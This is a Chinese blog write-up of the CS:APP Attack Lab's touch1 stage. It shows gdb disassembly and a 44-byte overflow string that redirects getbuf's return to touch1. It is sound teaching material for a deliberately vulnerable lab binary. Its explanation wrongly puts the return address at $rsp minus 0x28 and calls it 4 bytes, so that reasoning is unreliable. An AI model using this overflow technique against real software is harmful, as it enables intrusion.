 ```yaml
---
title: 'CS:APP - Attack Lab 笔记'
date: 2018-08-29 17:48:58
categories:
	- 学习笔记
tags:
	- CSAPP
	- C
	- 学习笔记
---
```


本次 Lab 是通过利用缓冲区溢出等漏洞来改变代码的行为

## touch1

touch1 不需要写汇编代码，只要利用一定长度的字符串修改函数的返回地址即可。

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
```

本来运行完 `getbuf` 函数后函数会返回 `test` 继续运行，但是我们可以通过为 `Gets` 函数提供过长的字符串，以覆盖原来的返回地址。

`getbuf` 函数首先申请了 `0x28 = 40` 字节的空间，假设此时 `$rsp = 0x100`，那么原本的函数返回地址应该在 `$rsp - 0x28` 处，占用 4 个字节。也就是说，如果我们提供 44 个字节长度的字符串，就能成功覆盖原本的函数返回地址。

所以答案应该是（其实不应该有换行的！）：

```markdown
00 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
c0 17 40 00 /* touch1 的入口地址 */
```

